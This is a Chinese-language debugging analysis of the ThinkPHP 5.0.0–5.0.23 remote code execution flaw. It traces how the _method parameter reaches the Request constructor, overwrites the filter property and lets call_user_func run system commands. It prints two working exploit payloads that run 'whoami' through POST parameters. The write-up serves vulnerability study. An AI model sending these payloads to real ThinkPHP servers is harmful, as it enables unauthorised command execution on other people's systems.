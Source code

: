 ### **静态调试跟踪**

**首先定位到漏洞关键点：**

thinkphp/library/think/Request.php:518

![image-20210327121644704]([thinkphp]5.0.0~5.0.23--Rce/image-20210327121644704.png)

在method函数的第二个if分支中，引入了一个外部可控的数据

$_POST[Config::get['var_method'] 。而 var_method 的值为 _method

然后将执行:![image-20210327122104287]([thinkphp]5.0.0~5.0.23--Rce/image-20210327122104287.png)

method参数可控,这里我们去看下__construct

![image-20210327122221175]([thinkphp]5.0.0~5.0.23--Rce/image-20210327122221175.png)

发现我们配合foreach,其实就已经可以控制全部类中原本拥有的属性了

而在param方法中

![image-20210327123055922]([thinkphp]5.0.0~5.0.23--Rce/image-20210327123055922.png)

当mergeParam为空时,将会执行

```php
$this->param      = array_merge($this->param, $this->get(false), $vars, $this->route(false));
```

跟进$this->get(false)

![image-20210327123311227]([thinkphp]5.0.0~5.0.23--Rce/image-20210327123311227.png)

首先会先获取$_GET的值,(当然这里也可以利用前面的__construct来给$this->get赋值,exp里是用的变量覆盖,本地测试直接get传参也可以)

然后进入$this->input方法



```php
  public function input($data = [], $name = '', $default = null, $filter = '')
    {
        if (false === $name) {
            // 获取原始数据
            return $data;
        }
        $name = (string) $name;
        if ('' != $name) {
            // 解析name
            if (strpos($name, '/')) {
                list($name, $type) = explode('/', $name);
            } else {
                $type = 's';
            }
            // 按.拆分成多维数组进行判断
            foreach (explode('.', $name) as $val) {
                if (isset($data[$val])) {
                    $data = $data[$val];
                } else {
                    // 无输入数据，返回默认值
                    return $default;
                }
            }
            if (is_object($data)) {
                return $data;
            }
        }
 // 解析过滤器
    $filter = $this->getFilter($filter, $default);           #######进入getFilter,此时$default = null, $filter = ''

    if (is_array($data)) {
        array_walk_recursive($data, [$this, 'filterValue'], $filter);
        reset($data);
    } else {
        $this->filterValue($data, $name, $filter);  #######进入filterValue,$data可控,为$get,name='',$filter可控
    }

    if (isset($type) && $data !== $default) {
        // 强制类型转换
        $this->typeCast($data, $type);
    }
    return $data;
}
```


![image-20210327124059891]([thinkphp]5.0.0~5.0.23--Rce/image-20210327124059891.png)

$this->filter 的值是攻击者通过调用 __construct 覆盖控制的。

成功控制$filter

程序继续运行进入filterValue

```php
private function filterValue(&$value, $key, $filters)
{
    $default = array_pop($filters);
    foreach ($filters as $filter) {
        if (is_callable($filter)) {
            // 调用函数或者方法过滤
            $value = call_user_func($filter, $value);   ########成功执行命令
        } elseif (is_scalar($value)) {
            if (false !== strpos($filter, '/')) {
                // 正则过滤
                if (!preg_match($filter, $value)) {
                    // 匹配不成功返回默认值
                    $value = $default;
                    break;
                }
            } elseif (!empty($filter)) {
                // filter函数不存在时, 则使用filter_var进行过滤
                // filter为非整形值时, 调用filter_id取得过滤id
                $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                if (false === $value) {
                    $value = $default;
                    break;
                }
            }
        }
    }
    return $this->filterExp($value);
}
```

分析一下EXP

```
get:

s=captcha

post:

_method=__construct&filter[]=system&method=get&get[]=whoami
```

我们发现,除开之前分析的那几个参数还有几个参数是没有分析到的,s=captcha method=get,这里就需要根据整个流程分析一下了 

参考链接https://xz.aliyun.com/t/3845#toc-1



# 整体流程分析

先传参:s=captcha,打上断点

![image-20210329204158919]([thinkphp]5.0.0~5.0.23--Rce/image-20210329204158919.png)

然后经过该段代码获得$dispatch

```php
if (empty($dispatch)) {
                $dispatch = self::routeCheck($request, $config);
            }
```

![image-20210329204445815]([thinkphp]5.0.0~5.0.23--Rce/image-20210329204445815.png)

再往下走

```php
$data = self::exec($dispatch, $config);
```

这段是关键函数,跟进去

![image-20210329204554257]([thinkphp]5.0.0~5.0.23--Rce/image-20210329204554257.png)

这里使用instance创建一个对象,然后使用param()方法,

![image-20210329204700162]([thinkphp]5.0.0~5.0.23--Rce/image-20210329204700162.png)

然后使用method方法,结合之前的method=\_\_construct来修改任意参数,但是实际上这里无法像之前分析的那样利用method方法,因为传参为true,所以是不会进入第二个分支的,但是这里可以先留着,等会儿会有其他其他方法来利用这个

再稍微后面一点的代码中

![image-20210329210030285]([thinkphp]5.0.0~5.0.23--Rce/image-20210329210030285.png)

这里就是上面分析到的那个点,接下来跟着上面的思路走就可以命令执行

好的,回到之前的问题,为啥要使用method=get,还记得流程中有一个                $dispatch = self::routeCheck($request, $config);吗,在这里面有一个规则,method=get,不然就会返回dispatch['type']=module,导致后面无法进入理想的which分支

![image-20210329220120407]([thinkphp]5.0.0~5.0.23--Rce/image-20210329220120407.png)



![image-20210329215705839]([thinkphp]5.0.0~5.0.23--Rce/image-20210329215705839.png)

![image-20210329221348741]([thinkphp]5.0.0~5.0.23--Rce/image-20210329221348741.png)

![image-20210330124010940]([thinkphp]5.0.0~5.0.23--Rce/image-20210330124010940.png)

这里的$rules是不同的,因为注册的时候是注册的get

![image-20210330124042703]([thinkphp]5.0.0~5.0.23--Rce/image-20210330124042703.png)

![image-20210330204549057]([thinkphp]5.0.0~5.0.23--Rce/image-20210330204549057.png)

instance会执行__construct  然后后面的param就是之前所分析的



还有一个exp,就不写了,大题差不多

```
get:

s=captcha

post:

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=whoami 
```

